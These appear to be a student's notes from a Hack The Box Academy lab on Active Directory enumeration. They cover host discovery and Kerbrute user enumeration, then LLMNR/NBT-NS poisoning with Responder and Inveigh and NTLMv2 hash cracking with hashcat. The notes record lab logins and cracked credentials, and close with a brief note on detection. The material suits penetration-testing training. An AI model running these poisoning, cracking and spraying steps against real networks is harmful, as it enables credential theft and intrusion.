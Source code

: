 
Key data points:
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXc9hltjvvel2xQdhpxG68TgsHDE1yAAiGSSEYfLz_9jt1LWPoq8ED6epPfyXcLNPYeIGCSDp5d9s84bl82NwW-SuRuWIlkvECVRydvIdGHXJtoDs2ZYoILkuPSSgmM1k83m6QtX9g?key=iaFFVFGI6Bfpg5YW3a1suQ)

==Login to target (MICROSOFT):== `xfreerdp /v:<MS01 target IP> /u:htb-student /p:Academy_student_AD!`

==Login to target (LINUX)==: `ssh htb-student@<ATTACK01 target IP>`
HTB_@cademy_stdnt!

## Passive Methods:
1. Use Wireshark/Tcpdump to monitor for ==arp== or ==MDNS== traffic
	1. Who is talking to who?
	- `sudo -E wireshark` (filter on 'arp' and 'mdns')
	- `sudo tcpdump -i ens224 `
2. `sudo responder -I ens224 -A`

## Active Methods:
1. fping: scriptable tool that works in round robin fashion that can lead to greater speeds.
	- `fping -asgq 172.16.5.0/23`
	![[Pasted image 20250528230237.png]]
2. Nmap:
	- `sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum`

==172.16.5.5== -> ACADEMY-EA-DC01


1. Identify users
	-  Kerbrute: Takes advantage of pre-authentication weakness
	- `kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users`

mmorgan has no preauth required:
![[Pasted image 20250528231818.png]]

==By gaining SYSTEM-level access on a domain-joined host, you will be able to perform actions such as, but not limited to:==
- Enumerate the domain using built-in tools or offensive tools such as BloodHound and PowerView.
- Perform Kerberoasting / ASREPRoasting attacks within the same domain.
- Run tools such as Inveigh to gather Net-NTLMv2 hashes or perform SMB relay attacks.
- Perform token impersonation to hijack a privileged domain user account.
- Carry out ACL attacks.

# LLMNR/NBT-NS Poisoning - from Linux

- LLMNR and NBT-NS are used when DNS fails for hosts to perform name resolution.
- NBT-NS: UDP 137
- LLMNR: UDP 5355
- ^^ When these are used on the network Any host can reply.
    
- If a host tries to broadcast over these protocols, responder can capture the NetNTLM hashes that can be cracked offline.
- ==How this happens== 
- If someone is on the network and attempts to connect to a print server and commits a typo, DNS will say “I don’t have that printer” and then the host will broadcast with these protocols and responder will reply and capture the NetNTLM hash.
    

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeEpPtpcWO7Sbf3cCPvKWYyoqBn2HdbGeJRtdR5u5X7OeTjeg2HQo_XnYR4FtBuPOYNu4oVNH_y3X7kEimDNTR8VpGbDFHaURqw1cM-fFS-Y8mFUJCC2AqlA3QAIk2xvH3iqwJ-3g?key=iaFFVFGI6Bfpg5YW3a1suQ)

  

`responder -I eth0 -wrf`:

- -w: Start the WPAD proxy (Fake that you are a proxy to Windows browser)
- -r: Enable answers for netbios wredir suffix queries.
- -f: Fingerprint remote host and operating system
- ^^ Is this in red team vault?
    
- Output saved to: /usr/share/responder/logs
- NetNTLM hashes are not able to be used in pass the hash attacks, they must be cracked offline
    

### Cracking NTLMv2 hashes with hashcat:  
`hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`

Credentials gathered: FOREND:Klmcargo2

^^ Keep hashcat running in the background, but make sure that you do not spend too much time cracking hashes that will be of no value to you overall.


## LLMNR/NBT-NS Poisoning - from Windows

### Inveigh Powershell:
- Similar to responder, but is written in Powershell and C#
- ==To get help==: `get-help invoke-inveigh -examples`
- ==Start Inveigh==: `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`
### Inveigh C#:
- Run `.\Inveigh.exe`
- Press `esc` to enter the console
![[Pasted image 20250529231439.png]]

^^ ==Get NTLMv2UNIQUE== is very useful

==Usernames below==
![[Pasted image 20250529231744.png]]

- To get rid of NBT-NS on your domain, You can write a powershell script, Create a GPO on the domain controller, add it to a share, and then call it via its UNC path.
- You can also just filter/block the LLMR/NetBIOS traffic

==Crack an NTLMv2 Hash with Hashcat==:
`hashcat -m 5600 -a 0 svc_qualys_hash.txt /usr/share/wordlists/rockyou.txt`

Creds: SVC_QUALYS:security#1
### Detection:
- If a response to LLMR/NetBIOS is recieved from a non-existent host, we know something is up

## What we can do with the info we have now:
1. Hosts (Ports open)
2. Usernames 
3. one password
4. user hashes

- We can now use Bloodhound
- Crack hashes offline
- Password spray
